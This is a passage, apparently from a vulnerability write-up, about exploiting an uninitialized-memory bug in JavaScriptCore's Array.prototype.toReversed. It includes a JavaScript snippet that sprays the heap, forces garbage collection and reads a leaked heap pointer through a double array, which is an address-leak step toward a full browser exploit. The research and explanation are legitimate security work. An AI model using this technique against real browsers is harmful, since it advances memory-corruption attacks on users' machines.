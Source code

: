 ![](b.png)

### Leaking addresses 

Since JSC arrays have dynamic types, and the uninitialized memory happens in an array value, we can simply spray the heap with some object pointers, free it with gc() , then trigger the vulnerability multiple times to force the allocation to reuse the heap. Then we can read the pointer from double arrays directly thus achieving memory leak. Illustration by snippet code below:  
```js
let spray_arr = new Array(0x20);
for (let i = 0; i < 0x40; i++) {
   spray_arr[i] = [2.1*i, 2.2, 2.3]; // spray some arrays
}
gc(); // clean memory and force allocation reusing above’s heap 


b1 = [1.1];
b1 = b1.toReversed();
let addr1 = f2i(b1[1]);// b1[1] is previous heap chunk and will be leaked
print ("leak1: " + hex(addr1));

```
